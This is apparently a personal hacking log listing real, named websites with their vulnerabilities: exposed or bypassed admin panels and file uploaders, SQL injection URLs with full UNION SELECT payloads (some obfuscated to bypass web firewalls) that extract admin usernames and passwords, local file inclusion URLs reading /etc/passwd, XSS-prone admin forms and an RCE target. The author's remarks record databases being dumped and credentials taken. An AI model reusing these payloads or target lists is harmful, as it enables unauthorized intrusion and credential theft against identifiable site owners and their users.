 
# Admin panels:
 1. [http://med.nitc.ac.in/~user/google/superadminhome.php](http://med.nitc.ac.in/~user/google/superadminhome.php)
 2. [https://www.cbhedelhi.com/admin/center_add.php](https://www.cbhedelhi.com/admin/center_add.php)
 3. [http://www.technopk.com/adminIndex.php](http://www.technopk.com/adminIndex.php)
 4. [https://ccpindia.in/verification/AdminMain2.aspx](https://ccpindia.in/verification/AdminMain2.aspx)
 5. [https://www.sunclg.in/track/admin/entry.html](https://www.sunclg.in/track/admin/entry.html)
6. http://www.pcsamana.org.in/registration/admin.php
7. [http://sveg.ind.in/AdminPanel/](http://sveg.ind.in/AdminPanel/) (with noredirect from here on out)
8. [http://carboncalculator.americanpistachios.org/admin/home.php](http://carboncalculator.americanpistachios.org/admin/home.php)
9. [http://sailorsmedicalclinic.com/hms/admin/dashboard.php](http://sailorsmedicalclinic.com/hms/admin/dashboard.php)
10. https://bncindourdinara.org.in/admin/dashboard.php
11. http://www.teach11.move.pk/Admin/dashboard.php
12. https://www.sindhicollege.in/admin/dashboard.php
13. http://www.gpmau.in/gpmauadmin/admin/dashboard.php
14. https://www.computermindtech.co.in/cm_computer_admin/admin/dashboard.php (doesnt have a file uploader)
15. https://www.alternativemedicaluniversity.in/admin/dashboard.php (randomizes the uploaded file name in the backend and only accepts when theres a jpg extention at first)
16. https://www.vagoviaviaggi.it/admin/dashboard.php (filled with errors and its also french ig????????)
17. http://aksharinternationalschool.in/admin/dashboard.php (no permission to upload and also the news section is already "hacked" some goofy ass bd heckers ig)
18. https://kandistores.com/admin/home.php (uploaders are there but no permission smh)
19. https://dkonlineservices.com/admin/dashboard.aspx (through admin bypass)
# SQLi:
1. [http://www.jeevanscientific.com/newsdetails.php?id=9](http://www.jeevanscientific.com/newsdetails.php?id=9)
2. [http://www.embryohotel.com/room-detail.php?id=1](http://www.embryohotel.com/room-detail.php?id=1)
3. [https://www.pupilbooks.in/book/book.php?id=12&subject_id=28](https://www.pupilbooks.in/book/book.php?id=12&subject_id=28)
4. [https://www.bishopwalsh.edu.hk/gallery_detail.php?id=1](https://www.bishopwalsh.edu.hk/gallery_detail.php?id=1)
5. [http://www.alisan.com.hk/en/publications.php?id=19](http://www.alisan.com.hk/en/publications.php?id=19)
6. http://www.itopia.com.hk/eng/business.php?id=9 (admin, )
7. http://www.simscollege.ac.in/news.php?id=53
8. http://www.igoergo.com/_site/about.php?id=12
9. http://theory.cse.iitm.ac.in/viewevent.php?type=news&id=67
10. http://www.cr-led.com/product.php?id=77
11. https://www.af.org.pk/publication-detail.php?id=7
	- https://www.af.org.pk/publication-detail.php?id=-7'  Union Select 1,2,3,4,5,6,7,8,9,10,concat("username: ",username,"     password:  ",password),12,13 from admin-- -
12. https://www.kandistores.com/app/page.php?id=5 (database got dumped but cant concat the pass for some reason)
	 - https://www.kandistores.com/app/page.php?id=-5  Union Select 1,2,concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a20416c69204b68616e2028416b446b292044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r+1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number+1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/ --+
13. https://www.sin2maxindia.in/page.php?page=BlogDetails&id=3 (dumped but its encrypted smh)
	 - https://www.sin2maxindia.in/page.php?page=BlogDetails&id=-3'  Union Select 1,version(),(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a),4,5,6,7,8,9,10-- -
14. https://www.sftc.co.in/menu.php?cat_id=19 (dumped admin username and pass but pass doesnt seem to work for some reason aaaaaaaaaa)
	- https://www.sftc.co.in/menu.php?cat_id=-19'  Union Select 1,2,concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a20416c69204b68616e2028416b446b292044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/,4,5 -- -
	- https://www.sftc.co.in/menu.php?cat_id=-19'  Union Select 1,2,concat(username,"  ",password),4,5 from users-- -
15. 
# SQLi with WAF:
1. http://www.crammed.be/index.php?id=45&art_id=77
	- http://www.crammed.be/index.php?id=45&art_id=-77' /*!12345%55%6e%69%6f%6e*/ /*!50000S%65%6c%65ct*/ 1,2,3,4,5,6,concat(account_username,"=",account_password),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76 from afb_accounts-- -
2. http://www.chimin.cn/en/products-details.php?id=4&types=1
	- http://www.chimin.cn/en/products-details.php?id=4&types=-1 /*!50000Union*/ /*!50000Select*/ 1,2,/*!50000CONCAT*/(adminname,"=",adminpass),4,5,6,7,8,9,10,11,12 from kucom_admin--+-
3. https://www.supremecourt.gov.bd/web/indexn.php?page=officers_main.php&menu=11&div_id=1&lang=
	 -  https://www.supremecourt.gov.bd/web/indexn.php?page=officers_main.php&menu=11&div_id=-1' /*!50000Union*/ /*!50000Select*/ export_set(5,@:=0,(select+count(*)/*!50000from*/+/*!50000information_schema*/.columns+where@:=export_set(5,export_set(5,@,0x3c6c693e,/*!50000column_name*/,2),0x3a3a,/*!50000table_name*/,2)),@,2),2--+-&lang= 
# GET based LFI:
1. [https://www.edsonpolillo.com.br/index.php?emaildest=advogados%40edsonpolillo.com.br&redirecionar=index.php%3Fpagina%3Dobrigado_contato.php&pagina=///etc/passwd](https://www.edsonpolillo.com.br/index.php?emaildest=advogados%40edsonpolillo.com.br&redirecionar=index.php%3Fpagina%3Dobrigado_contato.php&pagina=///etc/passwd)
2. [https://massasadelina.com.br/index.php?pagina=///etc/passwd](https://massasadelina.com.br/index.php?pagina=///etc/passwd)
3. [https://www.kukiki.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd](https://www.kukiki.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd)
4. [https://fatsnail.tnbnb.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd](https://fatsnail.tnbnb.com.tw/index.php?page=../../../../../../../../../../../../etc/passwd)
5. [https://handays888.com/index.php?page=../../../../../../../../../../../../etc/passwd](https://handays888.com/index.php?page=../../../../../../../../../../../../etc/passwd)
6. https://www.themindassociation.org/members/register/index.php?page=home.php
# XSS:
1. http://www.gpmau.in/gpmauadmin/admin/department.php (you can paste in html elements and shit in the input feild)
2. [http://sailorsmedicalclinic.com/hms/admin/manage-doctors.php](http://sailorsmedicalclinic.com/hms/admin/manage-doctors.php)
3. [https://www.alternativemedicaluniversity.in/admin/add-books.php](https://www.alternativemedicaluniversity.in/admin/add-books.php)
# RCE:
1. touchwoodindia.com
	1. [[CVE-2001-0537]] 